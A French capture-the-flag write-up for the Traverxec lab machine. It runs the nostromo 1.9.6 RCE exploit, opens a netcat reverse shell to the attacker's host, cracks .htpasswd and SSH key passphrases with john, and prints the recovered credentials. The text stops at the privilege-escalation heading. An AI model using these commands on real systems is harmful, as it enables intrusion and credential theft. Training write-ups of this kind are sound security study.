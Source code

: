 ![Pic1](../img/traverxec1.PNG?raw=true) </br>

# Présentation
Traverxec est une box Linux dont l'adresse IP est 10.10.10.165.</br>

Compétences mises en oeuvre :</br>
* Enumération des ports et services d'une machine distante.


</br>

# Enumération initiale

Nous commençons l'énumération par les ports et services disponibles avec nmap :
```bash
$ nmap -T4 -A 10.10.10.165
```
![Pic2](../img/traverxec2.PNG?raw=true) </br>
Deux ports sont ouverts :</br>
* 22 pour un OpenSSH en version 7.9
* 80 pour un serveur web nostromo en version 1.9.6
</br>

Nous allons faire une énumération des fichiers et dossiers présents sur le site web avec dirsearch :  
```bash
$ dirsearch -w wordlist -e "php,txt" -f -t 100 -x 400,403,404,501 -u http://10.10.10.165/
```
![Pic3](../img/traverxec3.PNG?raw=true) </br>

# Obtenir un accès utilisateur
Nous avons vu que le serveur web en écoute était un nostromo 1.9.6, ce qui n'est pas commun, nous allons voir s'il existe un exploit pour 
cette version avec searchsploit :
```bash
$ searchsploit nostromo
```
![Pic4](../img/traverxec4.PNG?raw=true) </br>

Nous allons chercher la RCE qui correspond à la version de nostromo et l'executer :
```bash
$ locate 47837.py
$ cp /usr/share/exploitdb/exploits/multiple/remote/47837.py ./
$ cat 47837.py
```
![Pic5](../img/traverxec5.PNG?raw=true) </br>
Pour l'utiliser, il faut mettre en argumant l'ip de la box + son port + la commande à exécuter, donc nous testons :
```bash
$ python 47837.py 10.10.10.165 80 hostname
```
![Pic6](../img/traverxec6.PNG?raw=true) </br>
Nous allons alors utiliser le netcat de la box pour obtenir un shell :
```bash
# Nous mettons un listener sur notre machine :
$ nc -lvnp 4567
# Toujours sur notre machine mais sur un autre shell :
$ python 47837.py 10.10.10.165 80 "nc 10.10.14.6 4567 -c bash"
```
![Pic7](../img/traverxec7.PNG?raw=true) </br>
Nous avons un shell en tant que www-data, nous allons faire de l'énumération de base :
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
$ find / -type d -perm 0755 2>/dev/null
```
![Pic8](../img/traverxec8.PNG?raw=true) </br>
Un résultat (non-exhaustif) plutot dense mais nous pouvons voir que nous avons accès a plusieurs fichiers de Nostromo, y compris son fichier de configuration nhttpd.conf :
```bash
$ cat /var/nostromo/conf/nhttpd.conf
$ cat /var/nostromo/conf/.htpasswd
```
![Pic9](../img/traverxec9.PNG?raw=true) </br>
Le fichier nhttpd.conf va lire le mot de passe de l'utilisateur david dans le fichier .htpasswd, grâce à lui nous avons son hash, que nous crackons avec john :
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic10](../img/traverxec10.PNG?raw=true) </br>
Nous avons donc un utilisateur et son mot de passe : david:Nowonly4me</br>
Malheureusement, ce mot de passe n'est que pour le serveur web Nostromo. Néanmoins, dans le fichier nhttpd.conf, il y a un répertoire public_www de spécifié. Nous allons
donc commencer l'énumération par là-bas :
```bash
$ ls -aril /home/david/public_www
```
![Pic11](../img/traverxec11.PNG?raw=true) </br>
Nous voyons un dossier protected-file-area qui contient une archive que nous allons dézipper :
```bash
$ ls protected-file-area
$ cd protected-file-area
$ cp backup-ssh-identity-files.tgz /tmp/
$ tar zxvf /tmp/backup-ssh-identity-files.tgz
```
![Pic12](../img/traverxec12.PNG?raw=true) </br>
Des fichiers concernant ssh, nous pouvons alors récupérer id_rsa pour se connecter à distance sur la machine en ssh, il va falloir cracker la passphrase avec john :
```bash
$ ssh2john.py id_rsa > passphrase_hash
$ john passphrase_hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Pic13](../img/traverxec13.PNG?raw=true) </br>
Nous pouvons alors nous connecter en tant que david en ssh et récupérer le user.txt :
```
$ cmod 600 id_rsa
$ ssh -i id_rsa david@10.10.10.165
passphrase : hunter
```
![Pic14](../img/traverxec14.PNG?raw=true) </br>

# Obtenir un accès root
Le secret pour les elévation de privilège, c'est l'énumération. 
